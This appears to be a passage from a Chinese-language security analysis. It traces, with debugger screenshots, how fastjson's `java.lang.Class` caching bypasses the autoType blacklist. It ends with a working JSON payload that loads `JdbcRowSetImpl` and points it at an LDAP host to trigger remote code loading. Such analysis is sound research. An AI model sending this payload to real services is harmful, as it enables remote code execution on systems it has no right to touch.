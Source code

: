 ![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616548832213.png)

如果 `parser.resolveStatus` 为`TypeNameRedirect` 时，进入 if 语句，会解析 “val” 中的内容放入 objVal 中，然后传入 strVal 中。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616549216642.png)

后面的逻辑如果 class 是 `Class.class` 时，将会调用 `loadClass` 方法，将 strVal 进行类加载并缓存：

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616548937936.png)

这就完成了恶意类的加载，组成了我们所有的恶意调用链。但是如何在第二步进入 if 语句呢？这中间的调用链是什么样的呢？我们先构造一个 json ：`{"@type":"java.lang.Class","val":"aaaaa"}` ，调试一下：

`JSON.parseObject()` 调用 `DefaultJSONParser` 对 JSON 进行解析。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551479274.png)

`DefaultJSONParser.parseObject()` 调用 `checkAutoType()` 检查待加载类的合法性。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551465173.png)

由于 deserializers 在初始化时将  `Class.class` 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551453453.png)

`DefaultJSONParser.parseObject()` 设置 resolveStatus 为 TypeNameRedirect。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551442803.png)

`DefaultJSONParser.parseObject()` 根据不同的 class 类型分配 deserialzer，Class 类型由 `MiscCodec.deserialze()` 处理。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551434486.png)

解析 json 中 “val” 中的内容，并放入 objVal 中，如果不是 "val" 将会报错。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551427835.png)

传递至 strVal 并使用 `loadClass` 加载并缓存。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616551420168.png)

此时恶意的 val 成功被我们加载到 mappings 中，再次以恶意类进行 `@type` 请求时即可绕过黑名单进行的阻拦，因此最终 payload 为：
```json
{
	"su18": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"su19": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://127.0.0.1:23457/Command8",
		"autoCommit": true
	}
}
```
